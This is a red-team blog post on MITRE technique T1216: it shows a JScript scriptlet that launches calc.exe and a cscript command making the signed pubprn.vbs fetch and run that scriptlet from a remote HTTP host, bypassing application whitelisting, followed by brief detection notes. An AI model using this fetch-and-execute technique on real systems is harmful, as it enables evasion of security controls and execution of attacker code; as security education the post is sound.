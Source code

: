 ```yaml
---
layout: post
title: "t1216 signed script ce"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-execution/
---
```


---
description: >-
  Signed Script Proxy Execution - bypass application whitelisting using
  pubprn.vbs
---

# pubprn.vbs Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

{% code title="http://192.168.2.71/tools/mitre/proxy-script/proxy.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
{% endcode %}

{% code title="attacker@victim" %}
```csharp
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```
{% endcode %}

## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:

![](../../.gitbook/assets/pubprn-csript.png)

![](../../.gitbook/assets/pubprn-ancestry.png)

Monitoring commandlines can be useful in detecting the script being abused:

![](../../.gitbook/assets/pubprn-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1216" %}
@spotheplanet
